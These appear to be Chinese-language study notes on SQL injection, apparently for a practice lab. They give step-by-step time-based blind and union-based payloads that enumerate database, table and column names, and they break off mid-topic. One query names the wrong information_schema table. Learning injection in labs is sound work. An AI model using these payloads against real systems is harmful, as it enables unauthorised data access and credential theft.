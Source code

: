 1. 延时盲注如何注入？

   1. 找到注入点

   2. 判断注入类型和闭合符

      1' and sleep(3)%23

   3. 猜测后端查询语句

      select * from t_xxx where id='1'

   4. 构造注入

      1' and if(ascii(substr(database(),1,1))>115,sleep(3),0)%23

# 如何表单注入？

> 找到注入点
>
> 猜测后端查询语句
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' LIMIT 0,1
>
> 判断列数:2列
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' order by 10#' LIMIT 0,1
>
> 判断显示位
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' union select 1,2#' LIMIT 0,1
>
> 查库名:security
> database()
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' union select 1,database()#' LIMIT 0,1
>
> 查表名:emails,referers,uagents,users
> select table_name from information_schema.tables where table_schema='security'
>
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security'#' LIMIT 0,1
>
> 查列名:id,username,password
> select column_name from information_schema.tables where table_schema='security' and table_name='users'
>
> select * from t_xx where cxx_user='xxx' and cyy_pass='yyy' union select 1,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'#' LIMIT 0,1

# post表单中如何延时盲注？

基础知识

select * from users where username = 'asdf' or sleep(3);

真 and 真 = 真
